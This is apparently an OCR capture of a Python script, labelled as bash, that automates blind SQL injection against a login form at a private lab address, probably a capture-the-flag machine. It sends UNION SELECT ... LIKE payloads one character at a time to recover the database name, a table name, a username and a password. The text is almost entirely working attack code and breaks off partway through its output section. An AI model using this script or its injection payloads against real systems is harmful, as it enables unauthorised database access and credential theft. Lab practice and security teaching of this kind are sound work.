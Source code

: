 ```bash
#!/usr/bin/python3
import requests

characters = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890_-=+[]{}:;<>,./?| '
url = 'http://10.10.50.107/index.php'
headers = {
    'Host': '10.10.50.107',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate, br',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://10.10.50.107',
    'Connection': 'close',
    'Referer': 'http://10.10.50.107/index.php',
    'Upgrade-Insecure-Requests': '1'
}
database_name = ''
table_name = ''
username = ''
password = ''

state = 1
while state < 5:
    for char in characters:
        if state == 1:
            query = f"' UNION SELECT 1,2,3,4 where database() like '{database_name+char}%'-- -"
        elif state == 2:
            query = f"' UNION SELECT 1,2,3,4 FROM information_schema.tables WHERE table_schema = '{database_name}' and table_name like '{table_name+char}%'-- -"
        elif state == 3:
            query = f"' UNION SELECT 1,2,3,4 from {table_name} where username like '{username+char}%' and username != 'hello'-- -"
        elif state == 4:
            query = f"' UNION SELECT 1,2,3,4 from {table_name} where username = '{username}' and  password like BINARY'{password+char}%'-- -"

        data = {
            'username': query,
            'password': 'abc'
        }

        response = requests.post(url, headers=headers, data=data, allow_redirects=True)

        if 'Hello there!' in response.text:
            if state == 1:
                database_name += char
            elif state == 2:
                table_name += char
            elif state == 3:
                username += char
            elif state == 4:
                password += char
            break

        if char == characters[-1]:
            print('\033[K')
            if state == 1:
                print(f"Database name\t: {database_name}")
            elif state == 2:
                print(f"Table name\t: {table_name}")
            elif state == 3:
```
